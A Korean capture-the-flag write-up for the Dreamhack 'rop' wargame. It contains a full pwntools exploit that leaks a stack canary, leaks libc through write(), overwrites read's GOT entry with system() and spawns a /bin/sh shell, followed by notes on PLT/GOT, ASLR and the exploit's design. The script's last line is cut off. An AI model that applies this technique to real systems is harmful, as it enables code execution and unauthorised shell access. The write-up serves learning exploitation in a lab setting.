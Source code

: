 - **Return Oriented Programming(ROP)**: 리턴 가젯을 이용하여 복잡한 실행 흐름을 구현하는 기법. 문제 상황에 맞춰 공격자가 유연하게 익스플로잇을 작성할 수 있다.
- **GOT Overwrite**: 어떤 함수의 GOT 엔트리를 덮고, 해당 함수를 재호출하여 원하는 코드를 실행시키는 공격 기법

```python
from pwn import *
from pwn import p64
from pwn import u64

p = remote("host3.dreamhack.games", 23578)
e = ELF("./rop")
lib = ELF("./libc.so.6")

buf = b'A'*57 ########### Canary Leak Start
p.sendafter(': ', buf)
p.recvuntil(buf)
canary = u64(b'\x00'+p.recvn(7))
print('Canary:', hex(canary)) ########### Canary Leak End

read_plt = e.plt['read'] #pwntools의 ELF 명령어 링크 참고
read_got = e.got['read']
write_plt = e.plt['write']
pop_rdi = 0x400853 #ROPgadget --binary ./rop --re "pop rdi"
pop_rsi_r15 = 0x400851
ret = 0x400596 #ROPgadget --binary ./rop

payload = b'A'*56 + p64(canary) + b'B'*8 + p64(pop_rdi) + p64(1) + p64(pop_rsi_r15) + p64(read_got) + p64(0) + p64(write_plt) #(1)payload to leak "addr of read()"
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(read_got) + p64(0) + p64(read_plt) #(2) payload of "read(0, read_got, ...)
payload += p64(pop_rdi) + p64(read_got+0x8) + p64(ret) + p64(read_plt) #(3) payload of "read("/bin/sh") == system("/bin/sh")"

p.sendafter(': ', payload)
read = u64(p.recvn(6)+b'\x00'*2) #(1) recieving "addr of read()"
lib_base = read - lib.symbols['read'] # addr of libc_base
system = lib_base + lib.symbols['system'] # addr of system()
print('read:', hex(read))
print('libc_base:', hex(lib_base))
print('system:', hex(system))

p.send(p64(system) + b"/bin/sh\x00") # (2), (3) send "addr of system()" to overwrite read_got through "read(0, read_got, 100)" & send "/bin/sh" to overwrite "read_got + 0x8"

p.interactive(
```

exploit

```bash

```

![rop.jpg](https://github.com/JoWoonJi/Dreamhack_Wargame/blob/main/SystemHacking/img/rop.jpg)

워게임환경과 vm의 환경이 맞지가 않아서 한 10번 시도한 끝에 겨우 성공.

수정하며 배운 것 정리

**[Remind]**

1) plt에는 got엔트리의 주소가 적혀있고 got에는 해당 함수의 실제 주소가 적혀있다.

2) ASLR이 적용되면 실행할 때마다 스택, 힙, libc_base의 주소가 바뀐다

**기본 설계]**

**1st) system 함수의 주소 계산:** 이 바이너리에서 호출하는 함수들은 "libc.so.6"에 정의되어 있다. 라이브러리 파일은 메모리에 매핑될 때 전체가 매핑되므로, system 함수도 프로세스 메모리에 같이 올라간다.

**But,** 바이너리가 system 함수를 직접 호출하지 않으므로, GOT에는 system 함수의 주소가 없다. 그러나, read, puts, printf, write 등의 함수는 GOT에 등록되어있다. **각 함수 사이의 offset은 항상 일정**하므로, 이 함수들과 system 함수와의 offset을 이용하여 system 함수의 주소를 구할 수 있을 것이다.

**2nd) "/bin/sh" 삽입:** rop 바이너리의 데이터 세그먼트에는 "/bin/sh" 문자열이 없다. 따라서 우리가 사용할 수 있는 방법엔 두 가지가 있다.

a) 이 문자열을 임의 버퍼에 직접 주입하여 잠조한다.

b) 다른 파일에 포함된 것을 사용한다.

(b) ex) "/bin/sh" 문자열의 주소도 system 함수의 주소를 계산할 때처럼 libc 영역의 임의 주소를 구하고, 그 주소로부터 거리를 더하거나 빼서 계산할 수 있다.

이번 실습에서는 (a)의 방법을 이용할 것이다.

**3rd) GOT Overwrite:** 함수를 호출하는 과정은 다음과 같다.

a) 호출할 라이브러리 함수의 주소를 프로세스에 매핑된 라이브러리에서 찾는다.

b) 찾은 주소를 GOT에 적고, 이를 호출한다.

c) 해당 함수를 다시 호출할 경우, GOT에 적힌 주소를 그대로 참조한다.

이때 **(c)에서 GOT에 적힌 주소를 검증하지 않고 참조**한다. -> GOT에 적힌 함수의 주소를 변조하면, 해당 함수를 호출했을 때 공격자가 원하는 함수를 실행시킬 수 있다. == **GOT Overwrite**

**[exploit 코드 설계]**

0) 바이너리에 적용된 보안 정책 확인

**1) Canary 우회**

**2) system 함수의 주소 구하기**

write함수를 이용하여 GOT에 적힌 read 함수의 주소를 출력하고, 그렇게 해서 구한 read 함수의 주소를 이용해 read 함수와 system 함수의 offset을 이용하여 system 함수의 주소를 계산한다.

이를 위해 pwntools의 ELF.symbols, ELF.plt, ELF.got 메소드 이용.

**3) "/bin/sh" 입력하기**

"/bin/sh"은 덮어쓸 GOT 엔트리 뒤에 같이 입력하면 된다. 이 바이너리에서는 "/bin/sh" 입력을 위해 read 함수를 이용할 수 있다.

**read, write 함수의 인자: rdi(=fd), rsi(=읽을 or 쓸 메세지), rdx(=메세지 길이)**

#main 함수의 에필로그 시점에서 rdx 값이 충분히 큰 값인 0x100으로 되어 있어, 여기선 리턴 가젯을 이용하여 굳이 rdx 값을 따로 설정해주지 않았음. 아래 사진 참고 (read() & write()의 인자 rdi(fd), rsi(buf), rdx(size))

**주의할 점은, 각 함수가 실행되는 시점에 stack이 0x10 단위로 align 되어있어야 한다는 것이다.**

**또한 read()의 주소를 leak할 때 write가 아닌 소스코드에 포함된 puts()나 printf()를 사용해도 좋다.**
